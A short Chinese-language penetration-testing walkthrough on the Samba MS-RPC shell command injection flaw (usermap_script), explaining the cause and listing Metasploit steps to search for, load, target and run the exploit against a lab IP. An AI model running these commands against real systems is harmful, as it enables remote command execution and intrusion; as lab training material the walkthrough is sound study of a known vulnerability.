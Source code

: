 
## 5、Samba MS-RPC Shell命令注入漏洞

---

漏洞产生的原因：通过MS-RPC提供的未过滤的用户输入在调用定义的外部脚本时调用/bin/sh，在smb.conf中，导致允许远程命令执行。

1、先启动msf，命令如下

```bash
msfconsole
```

​![image](assets/image-20230408140948-8is6dwl.png)​

---

2、搜索相对应的samba漏洞代码，命令如下

```bash
search samba
```

3、使用exploit/multi/samba/usermap_script，命令如下

```bash
use exploit/multi/samba/usermap_script
```

4、设置远程连接IP，命令如下

```bash
set rhosts 192.168.23.136
```

5、运行payload，命令如下

```bash
run
```
